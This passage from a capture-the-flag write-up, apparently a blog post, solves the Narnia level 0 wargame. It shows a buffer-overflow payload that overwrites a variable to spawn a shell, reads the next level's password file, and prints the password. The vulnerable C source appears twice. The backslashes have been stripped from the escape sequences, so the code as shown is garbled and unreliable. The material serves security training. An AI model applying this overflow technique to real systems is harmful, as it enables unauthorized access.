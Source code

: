 ![](/reports/Narnia/image1.png)

Upon further thought into the reason for not receiving a shell, it came to mind that perhaps the shell is dying with the process of piping the python command into the narnia0 binary. It is possible that stdin is attached to this process and therefore the shell immediately dies. Appening ;cat - to the end of the command proves to work (this is because cat - outputs stdin).

{% highlight bash %}
narnia0@narnia:/narnia$ (python -c "print 'A'*20+'xefxbexadxde'";cat -)|./narnia0 Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ  
val: 0xdeadbeef  
whoami  
narnia1  
cat /etc/narnia_pass/narnia1  
efeidiedae
{% endhighlight %}

Commands are successfully being executed inside the /bin/sh shell

Looking at the source code of the program, we can confirm that the aforementioned analysis of the binary was correct:

{% highlight c %}
#include <stdio.h>  
#include <stdlib.h>  
  
int main(){   long val=0x41414141;   char buf[20];   printf("Correct val's value from 0x41414141 -> 0xdeadbeef!n");   printf("Here is your chance: ");   scanf("%24s",&buf);   printf("buf: %sn",buf);   printf("val: 0x%08xn",val);   if(val==0xdeadbeef){  
       setreuid(geteuid(),geteuid());  
       system("/bin/sh");  
   }   else {       printf("WAY OFF!!!!n");       exit(1);  
   }   return 0;  
}
{% endhighlight %}

{% highlight c %}
### Source Code

#include <stdio.h>  
#include <stdlib.h>  
  
int main(){   long val=0x41414141;   char buf[20];   printf("Correct val's value from 0x41414141 -> 0xdeadbeef!n");   printf("Here is your chance: ");   scanf("%24s",&buf);   printf("buf: %sn",buf);   printf("val: 0x%08xn",val);   if(val==0xdeadbeef){  
       setreuid(geteuid(),geteuid());  
       system("/bin/sh");  
   }   else {       printf("WAY OFF!!!!n");       exit(1);  
   }   return 0;  
}
{% endhighlight %}

Narnia 1
--------

